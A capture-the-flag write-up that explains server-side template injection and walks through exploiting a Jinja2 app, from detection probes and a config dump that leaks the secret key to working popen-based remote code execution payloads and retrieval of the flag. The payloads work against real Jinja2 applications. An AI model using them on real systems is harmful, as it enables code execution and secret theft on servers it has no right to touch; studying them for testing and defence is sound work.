






#### What are Template Engines?

Template engines (like Jinja2, Twig, Mako, or Smarty) allow developers to create static HTML files that contain placeholder variables. At runtime, the engine replaces these placeholders with actual data (e.g., a user's name) to produce a dynamic webpage.

#### What is SSTI?

**Server-Side Template Injection (SSTI)** occurs when user input is concatenated directly into a template string instead of being passed as data. This allows an attacker to inject template directives, which the engine then executes on the server.

#### Identifying SSTI

The most common way to find SSTI is by injecting mathematical expressions or special characters into input fields (URL parameters, headers, or form data) and checking if the server evaluates them.

- **Common payloads:** `{{7*7}}`, `${7*7}`, `{{7*7}}[[7*7]]`.
    
- **Result:** If the page renders `49`, it is vulnerable.
    
                                                        **SSTI payloads by templating engine**
#### Exploiting SSTI (Jinja2)

###### Identifying where the vulnerability is :
1- Upon testing the app we find a reset username input field where we can test the initial payload: {{3 * 3}}



And the payload worked:
	

As we can see the 3 * 3 operation was evaluated to 9 which indicate that this app is vulnerable to SSTI.

2- Now we test more with
paylaod : 
```python
{{config}}
```


We get all the conf vars including the secret key which means **we can forge cookies **

3- Looking for subclasses:
payload:
```python
{{''.__class__.__base__.__subclasses__()}}
```

5- searching for subclasses that can read/write files or run commands like system,popen, fileloader ... we  find popen at the **index 520**  and **FileLoader at 91**

6- Executing code with popen:
payloads:
```python 1
{{ ''.__class__.__mro__[1].__subclasses__()[520]('id',shell=True,stdout=-1).communicate() }}
```
```python 2
{{cycler.__init__.__globals__['os'].popen('id').read()}}
```
result:

We got **code execution!!**

**Extra: After getting code execution the next step is getting the flag 
paylaod:
```python
{{ ''.__class__.__mro__[1].__subclasses__()[520]('echo $FLAG ',shell=True,stdout=-1).communicate() }}
```

```bash
CSCC{ssti_J1n1j4_d4t4b0unty} 
```